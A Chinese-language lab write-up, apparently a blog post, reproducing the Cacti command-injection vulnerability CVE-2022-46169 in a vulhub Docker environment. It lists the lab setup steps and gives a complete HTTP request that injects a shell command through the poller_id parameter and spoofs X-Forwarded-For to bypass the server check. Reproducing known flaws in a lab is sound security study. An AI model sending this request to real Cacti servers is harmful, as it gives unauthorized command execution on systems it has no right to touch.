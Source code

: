 # 原创
：  Cacti 前台命令注入漏洞（CVE-2022-46169） vulhub漏洞复现

# Cacti 前台命令注入漏洞（CVE-2022-46169） vulhub漏洞复现

**Cacti 前台命令注入漏洞（CVE-2022-46169）**

Cacti是一个服务器监控与管理平台。在其1.2.17-1.2.22版本中存在一处命令注入漏洞，攻击者可以通过X-Forwarded-For请求头绕过服务端校验并在其中执行任意命令。

**漏洞复现**

靶机ubuntu：192.168.126.128

攻击机kali：192.168.126.130

`cd vulhub-master/`

`cd cacti/`

`cd CVE-2022-46169/`

`docker-compose up -d`

访问`http://192.168.126.128:8080`会跳转到登录页面

账号密码为admin/admin

进入后一直点下一步进行初始化

漏洞的利用需要Cacti应用中至少存在一个类似是`POLLER_ACTION_SCRIPT_PHP`的采集器，接下来创建一个新的图形，选择Device - Uptime”，点击创建。<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/ffa4f1108b4742a98147cd1a37c77aaf.png"/>

**攻击准备**

1.打开攻击机kali：192.168.126.130

启动burpsuite,抓包，发送如下数据包：

`GET /remote_agent.php?action=polldata&amp;local_data_ids[0]=6&amp;host_id=1&amp;poller_id=`touch+/tmp/hacker` HTTP/1.1 X-Forwarded-For: 127.0.0.1 Host: 192.168.126.128:8080 User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8 Accept-Language: en-US,en;q=0.5 Accept-Encoding: gzip, deflate Connection: close Upgrade-Insecure-Requests: 1 Content-Length: 2`

回到靶机ubuntu漏洞目录下：`docker-compose exec web bash`

hacker文件被成功创建

